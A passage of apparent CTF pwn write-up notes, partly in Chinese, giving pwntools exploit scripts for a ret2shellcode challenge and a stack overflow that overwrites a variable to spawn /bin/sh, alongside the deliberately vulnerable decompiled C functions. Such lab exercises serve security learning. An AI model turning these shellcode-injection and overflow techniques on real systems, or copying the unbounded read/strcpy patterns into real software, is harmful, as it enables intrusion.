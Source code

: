 ```c
void vulnerable_function()
{
  char buf[128]; // [esp+0h] [ebp-88h]
  read(0, buf, 0x100u);
}
```

### pwn6 ret2shellcode

```python
from pwn import *

file = './pwn6'
sh = process(file)
shellcode = asm(shellcraft.sh())
buf2_addr = sh.recvline().decode().strip('\n')[-8:]
buf2_addr = int(buf2_addr, 16)
payload = flat(shellcode.ljust(0x48 + 4, b'A'), buf2_addr)
sh.sendline(payload)
sh.interactive()
```

```c
void vuln()
{
  char buffer[128]; // [esp+0h] [ebp-C8h]
  char shellcode[64]; // [esp+80h] [ebp-48h]

  printf("shellcode addr = %p\n", shellcode);
  read(0, buffer, 0x80u);
  strcpy(shellcode, buffer);
  // 看清题啊。是用buffer值去覆盖shellcode。所以只要填充shellcode数组就行了 0x48+4
  // 也可以用cyclic试
}
```

### pwn7 长度溢出覆盖变量

```python
from pwn import *

file = './pwn7'
sh = process(file)
junk = 'a' * (0x4c - 0xc)
payload = flat(junk, 44)

sh.sendline(payload)
sh.interactive()
```

```c
void __cdecl __noreturn vuln(int a1, char *src)
{
  char dest; // [esp+Ch] [ebp-4Ch]
  int v3; // [esp+4Ch] [ebp-Ch]
  // dest:4c, v3 c, 距离 4c-c
  // 然后痛覆盖 v3值为0x2c即44即可

  v3 = a1;
  strcpy(&dest, src);
  printf("answer = %d\n", v3);
  if ( v3 == 0x2C )
    execl("/bin/sh", "sh", 0);
  else
    puts("Sorry, you lose.");
  exit(0);
```